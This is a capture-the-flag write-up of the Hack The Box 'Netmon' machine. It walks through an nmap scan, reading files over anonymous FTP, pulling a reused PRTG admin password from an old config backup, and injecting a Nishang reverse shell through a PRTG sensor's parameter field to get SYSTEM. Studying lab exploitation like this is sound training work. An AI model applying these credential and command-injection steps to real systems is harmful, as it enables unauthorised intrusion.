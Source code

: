 ```yaml
---
layout: single
title: Netmon - Hack The Box
excerpt: "I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner."
date: 2019-06-29
classes: wide
header:
  teaser: /assets/images/htb-writeup-netmon/netmon_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ftp
  - prtg
  - powershell
  - nishang
  - config backups
published: false
---
```


![](/assets/images/htb-writeup-netmon/netmon_logo.png)

I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner.

## Summary

- We can log in with anonymous FTP and get the `user.txt` flag directly from the Public user folder
- There's a PRTG configuration backup containing an old password that we can download from FTP
- The PRTG password is the almost the same as the one found in the old backup but it ends with `2019` instead of `2018`
- We can get RCE using Powershell scripts running as sensors in PRTG

## Detailed steps

### Nmap scan

The nmap scan shows that anonymous FTP is allowed and that PRTG is running on the webserver.

```
# nmap -sC -sV -F 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-02 22:43 EST
Nmap scan report for netmon.htb (10.10.10.152)
Host is up (0.0090s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Free flag from FTP

In the nmap scan, the script identified that the FTP server allows anonymous access. Because we're not constrained to `ftproot` and we can look around the entire disk of the box, I quickly found a `user.txt` flag in the `c:\users\public` folder.

```
# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd /users/public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> type binary
200 Type set to I.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
33 bytes received in 0.01 secs (4.5173 kB/s)
ftp> exit
221 Goodbye.

root@ragingunicorn:~/htb/netmon# cat user.txt
dd58c...
```

I was too slow for first blood, someone else on HTB got user blood in under 2 minutes.

### Getting access to PRTG

The PRTG application is running on port 80:

![](/assets/images/htb-writeup-netmon/prtg_login.png)

I tried the default credentials `prtgadmin` / `prtgadmin` but I got access denied.

Looking in the filesystem, I found that the configuration directory for PRTG is under `c:\programdata\paessler`.

```
ftp> cd /programdata
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:15PM       <DIR>          Licenses
11-20-16  09:36PM       <DIR>          Microsoft
02-02-19  11:18PM       <DIR>          Paessler
```

I found the configuration file and an old configuration from last year.

```
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
[...]
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-02-19  05:33PM              1198465 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```

The `PRTG Configuration.dat` config file contains the credentials for user `prtgadmin` but they are encrypted (or hashed?) with what seems to be a proprietary method.

![](/assets/images/htb-writeup-netmon/prtg_new_creds.png)

When I checked `PRTG Configuration.old.bak`, I found the dbpassword: `PrTg@dmin2018`

![](/assets/images/htb-writeup-netmon/prtg_old_creds.png)

I tried this password with user `prtgadmin` on the PRTG login page but it didn't work. Then I realized that this is from a 2018 backup, maybe the admin is lazy and re-used the dbpassword for the admin account and simply used the current date (2019).

My guess was correct and I was able to log in with password `PrTg@dmin2019`

![](/assets/images/htb-writeup-netmon/prtg_mainpage.png)

### RCE through PRTG sensors

PRTG is a monitoring tool that supports a whole suite of sensors, like ping, http, snmp, etc. The server itself has been added in the device list, so it's safe to assume we can add sensors to it:

![](/assets/images/htb-writeup-netmon/prtg_devices.png)

I clicked add sensor on the 10.10.10.152 server then selected `EXE/Script sensor`.

![](/assets/images/htb-writeup-netmon/prtg_exe.png)

We can't add powershell custom scripts because we don't have write access to the application directory, but we can leverage the `Parameters` field to add additional code at the end of an existing Powershell script. I used Nishang to get a reverse shell. I added a semi colon at the beginning of the parameters, then pasted the Nishang code after.

![](/assets/images/htb-writeup-netmon/prtg_rce.png)

After the sensor is created, we hit the play button to execute it.

![](/assets/images/htb-writeup-netmon/prtg_rce2.png)

And we get a shell as `nt authority\system`. Box done!

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.152] 55751

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
30189...
```